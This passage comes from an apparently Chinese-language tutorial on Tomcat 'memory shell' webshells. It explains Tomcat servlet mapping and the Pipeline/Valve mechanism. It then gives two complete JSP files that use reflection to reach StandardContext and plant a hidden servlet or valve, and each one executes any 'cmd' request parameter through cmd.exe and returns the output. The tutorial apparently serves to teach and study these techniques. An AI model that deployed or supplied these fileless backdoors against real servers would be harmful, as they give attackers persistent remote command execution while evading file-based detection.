        registration.setServletSecurity(new ServletSecurityElement(annotation));
    }
    return registration;
}
```

然后在ApplicationServletRegistration的addMapping中

```plain
@Override
public Set<String> addMapping(String... urlPatterns) {
    if (urlPatterns == null) {
        return Collections.emptySet();
    }

    Set<String> conflicts = new HashSet<>();

    for (String urlPattern : urlPatterns) {
        String wrapperName = context.findServletMapping(urlPattern);
        if (wrapperName != null) {
            Wrapper wrapper = (Wrapper) context.findChild(wrapperName);
            if (wrapper.isOverridable()) {
                // Some Wrappers (from global and host web.xml) may be
                // overridden rather than generating a conflict
                context.removeServletMapping(urlPattern);
            } else {
                conflicts.add(urlPattern);
            }
        }
    }

    if (!conflicts.isEmpty()) {
        return conflicts;
    }
    // 向context中添加URL和对应的wrapper
    for (String urlPattern : urlPatterns) {
        context.addServletMappingDecoded(UDecoder.URLDecode(urlPattern, StandardCharsets.UTF_8), wrapper.getName());
    }

    if (constraint != null) {
        context.addServletSecurity(this, constraint);
    }

    return Collections.emptySet();
}
```

这个方法调用了StandardContext的addServletMappingDecoded方法，添加URL路径与Wrapper对象的映射

```plain
@Override
public void addServletMappingDecoded(String pattern, String name, boolean jspWildCard) {
    // Validate the proposed mapping
    if (findChild(name) == null) {
        throw new IllegalArgumentException(sm.getString("standardContext.servletMap.name", name));
    }
    String adjustedPattern = adjustURLPattern(pattern);
    if (!validateURLPattern(adjustedPattern)) {
        throw new IllegalArgumentException(sm.getString("standardContext.servletMap.pattern", adjustedPattern));
    }

    // Add this mapping to our registered set
    synchronized (servletMappingsLock) {
        String name2 = servletMappings.get(adjustedPattern);
        if (name2 != null) {
            // Don't allow more than one servlet on the same pattern
            Wrapper wrapper = (Wrapper) findChild(name2);
            wrapper.removeMapping(adjustedPattern);
        }
        // 这里
        servletMappings.put(adjustedPattern, name);
    }
    Wrapper wrapper = (Wrapper) findChild(name);
    wrapper.addMapping(adjustedPattern);

    fireContainerEvent("addServletMapping", adjustedPattern);
}
```

通过这个方法在servletMappings中添加URL路径与name的映射

### 6.3 Servlet内存马

servletMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/19
  Time: 18:43
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<% class MyServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        if(req.getParameter("cmd") != null) {
            InputStream in = null;
            try {
                in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", req.getParameter("cmd")}).getInputStream();
                Scanner scanner = new Scanner(in).useDelimiter("\\A");
                String out = scanner.hasNext()?scanner.next():"";
                resp.getWriter().write(out);
            } catch (Exception e) {}
        }
    }

    @Override
    public void destroy() {
        super.destroy();
    }
}
%>

<%
    try {
        String myServletname = "myServletShell";

        // 获取应用程序上下文对象(ApplicationContextFacade)
        ServletContext servletContext = request.getSession().getServletContext();

        if(servletContext.getServletRegistration(myServletname) == null) {
            // 获取ApplicationContext
            Field applicationContextField = servletContext.getClass().getDeclaredField("context");
            applicationContextField.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

            // 获取StandardContext
            Field standardConextField = applicationContext.getClass().getDeclaredField("context");
            standardConextField.setAccessible(true);
            StandardContext standardContext = (StandardContext) standardConextField.get(applicationContext);

            // 创建自定义的servlet
            MyServlet myServlet = new MyServlet();

            // 使用Wrapper封装Servlet
            Wrapper wrapper = standardContext.createWrapper();
            wrapper.setName(myServletname);
            wrapper.setServletClass(myServlet.getClass().getName());
            wrapper.setServlet(myServlet);

            // 向standardContext中的child添加wrapper
            standardContext.addChild(wrapper);

            // 向servletMappings中添加
            standardContext.addServletMappingDecoded("/myservlet", myServletname);
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
%>
```

## 7\. Valve

### 7.1 简介

Tomcat中定义了两个接口，分别是Pipeline（管道）和Valve（阀）,参考一张图：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135446-d175a236-8056-1.png)  
如上图所示，Tomcat每个层级的容器（）都维持一个管道（Pipeline示例），在ContainerBase中实例化了一个PipeLine对象，而如StandardContext这些类继承ContainerBase类

```plain
protected final Pipeline pipeline = new StandardPipeline(this);
```

而且在每个层级的容器中，都有基础的Valve，如StandardHostValve、StandardEngineValve、StandardContextValve、StandardWrapperValve，都继承了ValveBase基础类，**它们位于各容器管道的最后一个位置**（即图中的basic位置），并且在invoke方法中，都存在获取下一个管道并且调用下一个管道第一个阀门的代码

ValveBase类继承了Valve接口，这个类实现了生命接口及MBean接口

Pipeline接口：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135550-f7b61bd8-8056-1.png)  
Valve接口：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135617-078f4372-8057-1.png)

### 7.2 例子

HelloValve类：

```plain
package org.example.valve;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import java.io.IOException;

public class HelloValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        System.out.println("yes");
    }
}
```

Tomcat中的server.xml配置：

```plain
<Valve className="org.example.valve.HelloValve" />
```

### 7.3 Valve内存马

valveMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/22
  Time: 23:12
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>

<%!
    public class ValveShell extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            if(request.getParameter("cmd") != null) {
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", request.getParameter("cmd")}).getInputStream();
                    Scanner scanner = new Scanner(in).useDelimiter("\\A");
                    String out = scanner.hasNext()?scanner.next():"";
                    response.getWriter().write(out);
                } catch (Exception e) {}
            }
        }
    }
%>

<%
    ServletContext serverContext = request.getSession().getServletContext();
    Field applicationContextField = serverContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(serverContext);

    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    ValveShell myValveShell = new ValveShell();
    standardContext.getPipeline().addValve(myValveShell);

%>
```

## 9\. 总结

本文对涉及的代码进行了逐行阅读，重要部分也加上了注释。由于篇幅原因，Valve部分没有详细描述，原理相似。在学习内存马之前没有深入理解过Tomcat底层的原理，包括脚本启动、初始化类加载器、解析文件、启动组件等，这些前置知识很重要，详细后续再更新..

## 10\. 参考

[JavaWeb 内存马一周目通关攻略](https://su18.org/post/memory-shell/#filter-%E5%86%85%E5%AD%98%E9%A9%AC)
